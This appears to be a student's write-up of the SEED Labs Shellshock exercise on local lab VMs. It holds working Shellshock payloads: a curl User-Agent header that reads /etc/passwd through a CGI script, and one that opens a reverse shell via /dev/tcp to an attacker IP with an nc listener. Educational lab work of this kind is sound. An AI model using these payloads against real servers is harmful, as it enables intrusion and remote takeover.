


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Shellshock.pdf

# Task 1

## Experiment

Use the following commands to define a shell function, export it into the environment, and then observe if it prints `'extra'` when calling the child shell with `/bin/bash_shellshock` or `/bin/bash`.

```sh
$ foo='() { echo "hello world"; }; echo "extra";'
$ export $foo
```

As expected, using `/bin/bash_shellshock` leads to extra print out while it is clear in `/bin/bash`.


# Task 2

```sh
$ su
$ cp myprog.cgi /usr/lib/cgi-bin
$ sudo chmod 755 /usr/lib/cgi-bin/myprog.cgi
```

# Task 3

The `Apache` creates a child process to execute `bash_shellshock` with function `exec()`, and `$$` will be replaced by `bash_shellshock` with the ID of the current process. So `strings /proc/$$/environ` will be correctly executed while parsing the HTTP request.

# Task 4

For instance, I can steal passwords of the server using

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; /bin/cat /etc/password;" http://localhost/cgi-bin/myprog.cgi
```

However, because `/etc/shadow` is only readable to `root`, I cannot steal the content of the file unless the webserver is launched by `root`.

# Task 5

- The attacker: `10.0.2.15`
- The server: `10.0.2.4`



First, build a TCP connection:

```sh
$ nc -lv 9090
```
~~It is blocked with listening on the port `9090` and print the information of whatever it fetches. Just keep the shell running and finish the following command in another shell~~

Then start a new shell and make use of the `shellshock` to map the server's `stdin`/`stdout` to local shell.

```sh
$ curl -A "() { echo hello;}; echo Content-type: text/plain; echo; echo; /bin/bash -i -> /dev/tcp/10.0.2.15/9090 0<&1 2>&1" http://10.0.2.4/cgi-bin/myprog.cgi
```

So, a reverse shell is created.



# Task 6

Reproduction of [Test 3](#Test-3) is successful while the ones of the other two tasks fail.

Because the output of environment variables is done directly by the bash itself rather than passing to any caller. The behavior will not be influenced by the version of the shell.
